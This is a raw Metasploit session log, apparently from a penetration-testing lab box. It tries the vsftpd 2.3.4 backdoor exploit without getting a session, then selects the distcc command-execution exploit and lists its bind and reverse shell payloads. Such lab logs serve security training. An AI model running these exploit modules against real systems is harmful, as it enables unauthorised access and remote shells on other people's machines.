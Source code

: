 Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > search distcc

Matching Modules
================

   Name                           Disclosure Date  Rank       Check  Description
   ----                           ---------------  ----       -----  -----------
   exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use exploit/unix/misc/distcc_exec
msf5 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   3632             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf5 exploit(unix/misc/distcc_exec) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Check  Description
   ----                                ---------------  ----    -----  -----------
   cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
